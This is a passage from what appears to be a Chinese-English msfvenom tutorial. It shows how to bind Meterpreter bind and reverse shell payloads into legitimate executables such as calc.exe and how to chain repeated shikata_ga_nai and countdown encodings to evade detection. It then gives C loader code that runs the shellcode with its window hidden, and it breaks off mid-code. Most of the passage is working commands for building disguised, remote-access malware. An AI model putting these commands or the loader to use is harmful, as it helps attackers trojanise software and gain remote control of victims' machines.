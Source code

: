 ```
    x86/single_static_bit         manual     Single Static Bit
    x86/unicode_mixed             manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
    x86/unicode_upper             manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
```


### -x 指定一个模板文件（“捆绑“payload到这个正常的可执行文件）

msfvenom使用的模板文件保存在目录`msf/data/templates`

-x calc.exe
捆绑payload到 正常文件（模板文件=宿主文件=自定义的可执行文件）

使用-x选项指定你自己的模板文件（如exe等），如：
使用windows下的calc.exe作为模板文件,生成payload：

```
msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe
```

注意，在win x64下使用自定义的x64的模板文件（如exe等）创建x64的payload时，输出格式必须要写`-f exe-only`而不能写`-f exe`
（Please note: If you'd like to create a x64 payload with a custom x64 custom template for Windows, then instead of the exe format, you should use exe-only:）

```
msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

-x选项经常和-k选项一起用，它允许您从模板中将payload作为新的线程运行。但是它目前只支持较老的系统，如x86 Windows XP.
（The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.）

### How to chain msfvenom output

The old msfpayload and msfencode utilities were often chained together in order layer on multiple encodings. This is possible using msfvenom as well:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```


### 编译生成的C文件
```bash
#win x86生成c文件
msfvenom -p windows/meterpreter/reverse_tcp lhost=[AttackerIP] lport=4444 -f c -e x86/shikata_ga_nai -i 12 -b '\x00'


#vc++6.0 编译（含buf数组的）C代码：
#include <stdio.h>
#pragmacomment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")//运行时不显示窗口
unsignedchar buf[] =
"buf数组";//复制数组内容 粘贴到此处
main()
{
((void(*)(void))&buf)();
}


#VS 编译：
main()

{
```